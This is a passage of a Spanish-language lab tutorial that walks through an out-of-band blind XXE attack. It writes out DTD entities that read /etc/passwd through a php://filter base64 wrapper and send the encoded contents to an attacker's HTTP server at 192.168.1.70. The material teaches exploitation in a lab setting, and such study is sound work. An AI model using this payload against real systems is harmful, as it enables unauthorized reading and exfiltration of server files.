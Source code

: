 
`<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">`

En esta primera entidad que definimos llamada **file**, lo que hace es tomar el contenido del archivo **/etc/passwd**, para después convertirlo a base64, esta entidad la usaremos más adelante, pero debe estar definida.

La siguiente entidad es esta:

`<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://192.168.1.70/?parametro=%file;'>">`

Esta entidad llamada eval, lo que contiene es la definición de otra entidad dentro de esta, pero como sabemos para declarar entidades en el DTD, se necesita usar el porcentaje, pero si lo agregamos dentro de otra entidad esto hará que el servidor se confunda al interpretar estos valores XML dándonos error, por eso debemos poner el porcentaje, pero en formato hexadecimal, el cual es 25, pero debemos agregarle el &#x para que nos funcione, después esta nueva entidad se llamará **exfil**, que es lo que hará que veamos el /etc/passwd en base64 en el lado del servidor web python.

Dentro de ahí le damos la IP a la que se va a conectar, para después asignar el parámetro llamado **parametro** por poner un ejemplo, aunque puede ser cualquiera, y el valor de este parámetro será la entidad que creamos llamada **file**, la cual como recordamos se encargara de obtener el archivo **/etc/passwd** codificado en base64, y por último llamaremos a las entidades:

```
%eval;
%exfil;
```
> Primero se define la entidad eval la cual contiene la instrucción de que archivo tomará, y después se llama a la que hará ese proceso para llegar al archivo.

Y nuestro archivo final se verá así:

![end](/assets/images/LabsXXE/prueba/final.png)

Al momento de guardar el archivo, activar el servidor HTTP compartido en la ruta del archivo llamado **prueba** el cual contiene estas entidades, y tramitar la petición, veremos lo siguiente:

![b64](/assets/images/LabsXXE/prueba/base64.png)

Vemos que hemos recibido el valor del archivo **/etc/passwd** en la respuesta del parámetro llamado **parametro**.

Por lo que solo queda decodificar el valor de base64 y vemos que se trata del archivo **/etc/passwd**:
